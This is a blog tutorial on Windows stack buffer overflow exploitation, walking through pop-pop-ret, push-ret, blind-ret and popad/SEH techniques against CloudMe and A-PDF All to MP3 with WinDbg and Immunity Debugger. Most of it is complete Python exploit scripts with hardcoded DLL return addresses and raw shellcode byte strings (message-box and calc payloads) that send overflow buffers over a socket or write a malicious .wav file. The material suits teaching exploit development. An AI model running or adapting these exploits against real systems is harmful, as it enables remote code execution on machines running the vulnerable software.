Windows Exploit Development Part II
Posted By: T3jv1l 16/1/2019 .

Hello everyone. Today i will show you different techniques needed for exploit development! In this part i will focus more on Immunity Debugger.We will use techniques like:
1>Pop Return this technique is not related to the SEH technique !
2>Push Return
3>Blind Return
4>Popad is also used in Unicode technique!
Pop Return.If any registry does not directly use the shellcode, what will be seen in the stack and does not execute our code from various causes that occur during the exploit.We will use this technique that consists of a bounce pop pop ret and jmp esp or call esp does not matter from a dll.
The pop ret technique obviously is only usabled when ESP+offset already contains an address which points to the shellcode.All we have to do is see if the first addresses indicate the shellcode and make a reference pop pop ret in EIP.his will take some address from the stack for every pop and will then put the next address into EIP.
I will go directly to the subject making the skeleton of our exploit, I will use the same application as in the first part.
import socket
target="127.0.0.1"
junk="A"*1052
pop="B"*4
junk1='C'
junk1+="\x90"*7
jmp_esp="C"*4
shellcode ="\x90"*1000
payload=junk+pop+junk1+jmp_esp+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
We know that we need 1052 bytes bytes before overwriting EIP, and that we need 4 more bytes before we are at the stack address where ESP points (ESP is with color green 0x0022ab50 in my case).We will simulate that at ESP+8, we have an address that points to the shellcode.
We have 1052 A and 4 B ,we use as break one C , 7 NOPS ,again we have 4 C and fake shellcode 1000 NOPS! The goal is to make a jump over the first break (C blue color), right to the second break (CCCC orange and light green).To do that we need to use ESP+8 = 0x0022ab58 purple color
Let's analyze with WinDGB what happened there , attach process and run your script!

We see the eip is overwite with BBBB but we need to overwrite with ESP + 8..... I will make a table to see how look this technique.
| BUFFER | EIP | Space 8 bites (Nop) | JMP ESP | Shellcode |
| A * 1052 | POP POP RET | 90 90 90 90 90 90 90 90 | 0xaddress | \xba\xd5\x31\x08\x38... |
I will put here skeleton exploit!!
import socket
target="127.0.0.1"
junk="A"*1052
pop="B"*4 #Address pop pop ret
junk1="\x90"*8 # 8 bites space
jmp_esp="C"*4 # jmp esp address
nop="\x90"*20 #NOPS
shellcode ="\x90"*1000 # Shellcode
payload=junk+pop+junk1+jmp_esp+nop+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"Now we use Immunity Debbuger for search in dll from pop pop ret and jmp esp or call esp! Run as Administrator Immunity and attache the process(PID)! Use mona.py to found dll's without protection:
!mona nosafeseh
Everything that is "False" can be used for found address! Ok let's use again Immunity! Use ALT + E to found all dll's! I will use third dll.But dont miss to start the program.
61B40000|005F6000|Qt5Gui|5.9.0.0|C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Gui.dll
Now we use ALT + S to find sequence of commands for pop pop ret , i use pop r32 because i have x86 arhitecture ,if you have x64 use pop r64.

Now we use same dll for found jmp esp address. Use CTRL + F to find command.

Now we have all pices for exploit.We have pop pop ret address 0x77621f29 and ESP+8 address 0x7767e684 (1052 A + pop_ret+8_bites_space+jmp_esp+nop+shellcode)
import socket
target="127.0.0.1"
junk="A"*1052
pop="\x29\x1f\x62\x77" #77621F29 5B POP EBX
junk1="\x90"*8 # 8 bites space
jmp_esp="\x84\xe6\x67\x77" # 7767E684 FFE4 JMP ESP
nop="\x90"*20 #NOPS
#Shellcode message BrokenByte
shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")
payload=junk+pop+junk1+jmp_esp+nop+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"Run exploit and Boom !!We have BrokenByte!!

Push Return.This technique is a little bit different than a jump or call. That's why I will not get into details. All we have to do is overwrite EIP with address of push on the one dll's.
Open WinDGB attache the process CloudME.exe ,don't use g for start the software.

Now we need to found in dll in area 54 c3. I use this dll.
ModLoad: 68a80000 69055000 C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Core.dll

I use first address 0x68a842b5.Now let's make a exploit with this address!
import socket
target="127.0.0.1"
junk="A"*1052
push="\xb5\x42\xa8\x68" #push esp ret 68a842b5
nop="\x90"*20 #NOPS
shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")
payload=junk+push+nop+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
Run the exploit and BOOM!

Blind Ret. This technique varies from software to software. It is used to overwrite the address EIP with ret address,then use one address jmp esp for bounce at shellcode.
Use WinDGB to found address ret like in image!

We have address for ret=0x6eb41011.Now we need to found jmp esp. I use another dll to found jmp esp address.

Now we have ret=0x6eb41011 and we have jmp_esp=0x61ffba23. We just have to do the exploit!
import socket
target="127.0.0.1"
junk="A"*1052
ret="\x11\x10\xb4\x6e" #6eb41011 ret c3
jmp_esp="\x23\xba\xff\x61" #61ffba23 jmp esp ff e4
nop="\x90"*20 #NOPS
shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")
payload=junk+ret+jmp_esp+nop+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"Again we have a popup BrokenByte!!

Popad.This technique is like pop pop ret ,but it's more complex is also used at Unicode and Seh metode. We will make a small table to understand the structure of this method.
For this methode i will use another software called A-PDF ALL to MP3
| BUFFER | NSEH | POPAD | NOPS | Shellcode |
| A * 4132 | 0x909006eb ---> 6 bites jump | 0xPOPAD_Address | NOPNOPNOPNOP | \xba\xd5\x31\x08\x38... |
Now let's try to find the address popad with WinDGB. First we'll look for the opcode!

I dont know why normal popad dont want to work,so I decided to use a popad and jmp ebp.Now that we have the opcode.Let's try to found address. I used first dll.
ModLoad: 00400000 00610000 C:\Program Files\A-PDF All to MP3\Alltomp3.exe
Nice we have just one address in this area. Now we have all pices , we have 4132 A because we use another software + 6_bites_jump + popad+jmp_ebp + nops+shellcode. The offset calculated buffer method does not change remains the same as the first software.
buffer = "\x41" * 4132
nseh = "\xeb\x06\x90\x90" # Jump 6 bytes
popad ="\x7f\x80\x55\x00" # 0055807f popad and jmp ebp opcode 61 ffe5
nops = "\x90" * 80 # Nops
#calc shellcode but be carefull this software contain a bad chars
shellcode = ("\xdb\xd0\xd9\x74\x24\xf4\xbf\x77\x1c\x78\x77\x5d\x31\xc9\xb1"
"\x33\x31\x7d\x17\x03\x7d\x17\x83\x9a\xe0\x9a\x82\x98\xf1\xd2"
"\x6d\x60\x02\x85\xe4\x85\x33\x97\x93\xce\x66\x27\xd7\x82\x8a"
"\xcc\xb5\x36\x18\xa0\x11\x39\xa9\x0f\x44\x74\x2a\xbe\x48\xda"
"\xe8\xa0\x34\x20\x3d\x03\x04\xeb\x30\x42\x41\x11\xba\x16\x1a"
"\x5e\x69\x87\x2f\x22\xb2\xa6\xff\x29\x8a\xd0\x7a\xed\x7f\x6b"
"\x84\x3d\x2f\xe0\xce\xa5\x5b\xae\xee\xd4\x88\xac\xd3\x9f\xa5"
"\x07\xa7\x1e\x6c\x56\x48\x11\x50\x35\x77\x9e\x5d\x47\xbf\x18"
"\xbe\x32\xcb\x5b\x43\x45\x08\x26\x9f\xc0\x8d\x80\x54\x72\x76"
"\x31\xb8\xe5\xfd\x3d\x75\x61\x59\x21\x88\xa6\xd1\x5d\x01\x49"
"\x36\xd4\x51\x6e\x92\xbd\x02\x0f\x83\x1b\xe4\x30\xd3\xc3\x59"
"\x95\x9f\xe1\x8e\xaf\xfd\x6f\x50\x3d\x78\xd6\x52\x3d\x83\x78"
"\x3b\x0c\x08\x17\x3c\x91\xdb\x5c\xb2\xdb\x46\xf4\x5b\x82\x12"
"\x45\x06\x35\xc9\x89\x3f\xb6\xf8\x71\xc4\xa6\x88\x74\x80\x60"
"\x60\x04\x99\x04\x86\xbb\x9a\x0c\xe5\x5a\x09\xcc\xc4\xf9\xa9"
"\x77\x19")
exploit=buffer + nseh + popad + nops + shellcode
try:
use= open("POPAD.wav",'w')
use.write(exploit)
use.close()
raw_input("\nExploit file created!\n")
except:
print "Cannot create"POPAD.wav file is create , open the software and put this file inside and BOOM we have a Calc.exe!!

I hope you like this article about Windows Exploit Development and sorry for my bad English , i am not a native speaker (Happy Hack)
References!!
Original Exploit for A-PDF to MP3
https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/